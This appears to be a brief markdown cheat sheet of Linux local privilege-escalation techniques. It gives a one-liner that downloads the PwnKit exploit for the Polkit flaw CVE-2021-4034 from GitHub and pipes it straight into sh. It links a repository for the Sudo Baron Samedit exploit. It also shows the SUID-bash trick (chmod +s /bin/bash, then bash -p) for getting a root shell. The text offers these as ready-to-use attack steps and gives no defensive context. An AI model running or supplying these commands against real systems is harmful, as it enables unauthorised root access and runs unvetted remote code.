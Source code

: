 # Linux
Some local privilege escalation techniques.

## CVE-2021-4034 : Polkit privilege escalation exploit
Many PoCs on internet. This one can be used easily, downloading it on Internet : 
```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```
More information on : https://github.com/ly4k/PwnKit

## CVE-2021-3156 : Sudo Baron Samedit exploit
```markdown
https://github.com/redhawkeye/sudo-exploit
```
Adding SUID to bash if you can control a binary/script launched by root :
```bash
chmod +s /bin/bash
/bin/bash -p
```
